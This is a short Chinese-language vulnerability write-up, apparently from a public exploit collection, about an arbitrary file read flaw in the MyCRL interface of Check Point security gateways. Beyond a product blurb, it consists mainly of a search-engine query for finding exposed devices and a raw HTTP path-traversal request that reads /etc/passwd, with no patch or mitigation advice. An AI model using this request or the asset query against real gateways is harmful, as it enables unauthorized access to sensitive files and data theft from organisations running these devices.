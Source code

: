 # Check Point安全网关MyCRL存在任意文件读取漏洞

# 一、漏洞简介
  Check Point 安全网关是一种功能强大、可扩展的安全解决方案，旨在保护企业网络免受各种网络威胁和攻击它提供了多种安全功能，包括防火墙、虚拟专用网络（VPN）、入侵检测和预防系统（IDPS）、杂货邮件防护、网络地址转换（NAT）、负载均衡和安全信息和事件管理（SIEM）。这些功能使得Check Point 安全网关能够提供高性能、可扩展性和高度安全的保护，满足大型企业的需求。同时，Check Point 安全网关也提供了灵活的管理界面，易于配置和管理 ，Check Point 安全网关 MyCRL接口处存在任意文件读取漏洞，恶意攻击者可能利用该漏洞读取服务器上的敏感文件，例如客户记录、财务数据或源代码，导致数据泄露。

# 二、影响版本
+ Check Point安全网关

# 三、资产测绘
```plain
app="Check_Point-SSL-Network-Extender"
```

![1717150853799-cc0ca8e4-ecea-402e-8578-e8d88b708a16.png](./img/ig_1fSGctqaDq-Md/1717150853799-cc0ca8e4-ecea-402e-8578-e8d88b708a16-784297.png)

# 四、漏洞复现
```plain
GET /../../../../etc/passwd HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Upgrade-Insecure-Requests: 1
```

![1717150867186-710fd67f-6c19-424f-8c63-7244fa5fac38.png](./img/ig_1fSGctqaDq-Md/1717150867186-710fd67f-6c19-424f-8c63-7244fa5fac38-692802.png)



> 更新: 2024-06-01 11:17:59  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/sa59vno6cykie36p>